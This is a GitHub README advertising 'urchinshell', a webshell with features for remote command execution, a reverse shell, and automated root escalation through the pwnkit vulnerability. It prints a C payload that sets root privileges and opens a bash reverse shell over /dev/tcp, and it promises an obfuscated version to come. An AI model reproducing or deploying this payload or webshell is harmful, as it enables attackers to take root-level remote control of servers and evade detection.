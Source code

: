 # urchinshell V1

[![Made in Tanzania](https://img.shields.io/badge/made%20in-tanzania-008751.svg?style=flat-square)](https://github.com/Tanzania-Developers-Community/made-in-tanzania)

![Artboard 1urchindfinal <img src="param-ninja-logo.png" width="150"/>](https://user-images.githubusercontent.com/49201347/209619868-735cfa22-8110-4c86-943a-cdd13931c3aa.png)


This webshell can be used for multi-purposed especially most if you want to manage your web server but you are in an emergency , so why not use a webshell:)

**DISCLAIMER : ILLEGAL USE OF OUR TOOLS INCLUDING THIS WEBSHELL WILL NOT HAVE US BEING HELD RESPONSIBLE AT ALL!**

![Screenshot_20220202_002639](https://user-images.githubusercontent.com/49201347/152054318-8a6bae94-48f2-4e92-a225-926e7e2baa95.png)

## How To Use

Currently has three features which are :
#### Automate-Privesc
this allows you to put in a base64 encoded string which contains the code run in poppy but with an execution of reverse-shell instead , which means when you execute it , it shall directly test and exploit pwnkit vulnerability using poppy, the payload should be something like this:
```c
#include <stdio.h>
#include <stdlib.h>

void gconv() {}

void gconv_init() {
  setuid(0);
  setgid(0);
  seteuid(0);
  setegid(0);  
  system("/usr/bin/sudo -u root /usr/bin/bash -c '/usr/bin/bash -i &>/dev/tcp/127.0.0.1/1337 <&1'");
  exit(0);
}
```
#### Reverse Shell
this is a classic one , you just put in your IP and Port and you shall definitely get shell access back to your listener if you are having trouble using the shell feature and you want to use a shell instead:

![Screenshot_20220202_001555](https://user-images.githubusercontent.com/49201347/152052883-bb57b9ef-61aa-4869-9170-84ea11120548.png)

#### Shell Exec
Allows you to execute shell commands , just by typing your command and clicking execute

![Screenshot_20220202_001938](https://user-images.githubusercontent.com/49201347/152053380-b68558ea-2778-46e9-931d-516234a74940.png)

## V2 UPDATE INFO
Version two will be updated with the following new features:

1. MYSQL Connector
2. Obfuscated Web-Shell
3. Real-Time Shell Spawn

## CONTACT US

If you wish to contribute or give a suggestion or need to contact us :

email : urchinsec@protonmail.com
discord : https://discord.gg/red66VCSEp


Artwork : [witchdoctorsec](https://github.com/witchdocsec/)
